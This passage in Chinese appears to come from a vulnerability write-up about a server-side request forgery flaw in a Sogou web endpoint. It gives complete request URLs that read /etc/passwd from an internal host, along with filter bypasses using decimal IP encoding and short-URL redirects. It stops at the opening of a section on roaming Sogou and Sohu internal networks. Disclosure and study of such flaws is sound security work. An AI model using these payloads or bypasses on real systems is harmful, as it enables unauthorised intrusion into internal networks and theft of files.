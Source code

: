 ## 9. 搜狗主站存在SSRF漏洞(绕过ip限制)

**漏洞点：**

- 漏洞点 url：

http://www.sogou.com/reventondc/transform?charset=GBK&key=%E8%B0%A2%E6%96%87%E4%B8%9C1&objid=2000000&type=2&userarea=sss&vrid=70043804&url=http://10.13.199.124.xip.io:8080/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd%23

- 参数：
url

上图中已经使用了 xip.io 来 bypass，不过 bypass 失败。

![title](https://leanote.com/api/file/getImage?fileId=5da2d45bab6441691e000255)

**漏洞绕过：**

1、IP 进制转换绕过内网IP检测

将IP转换为10进制绕过：


http://www.sogou.com/reventondc/transform?charset=GBK&key=%E8%B0%A2%E6%96%87%E4%B8%9C1&objid=2000000&type=2&userarea=sss&vrid=70043804&url=http://168675196:8080/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd%23

![title](https://leanote.com/api/file/getImage?fileId=5da2d66dab6441691e00025a)

`注意：`这里通过url参数的形式带出了 10.13.199.124 这台主机上的 /etc/passwd 。 


关于进制转换：有脚本、亮点自寻：

![title](https://leanote.com/api/file/getImage?fileId=5da344b4ab64416721000469)


当然其他进制也可以啊！

2、短域名绕过黑名单

当输入sogou-inc的时候也会检测：

http://www.sogou.com/reventondc/transform?charset=GBK&key=%E8%B0%A2%E6%96%87%E4%B8%9C1&objid=2000000&type=2&userarea=sss&vrid=70043804&url=http://www.sogou-inc.com

![title](https://leanote.com/api/file/getImage?fileId=5da2d5dfab6441672100029b)

不过通过生成短域名就能绕过。t.cn 短域名生成器生成的短域名：

![title](https://leanote.com/api/file/getImage?fileId=5da2d60fab6441691e000258)

## 10. 我是如何漫游搜狗和搜狐内部网络的

通过一些小的安全漏洞加上一些网络设计的不合理和安全边界的缺失是可以遍搜狗和搜狐内部网络的。

**漏洞点：**
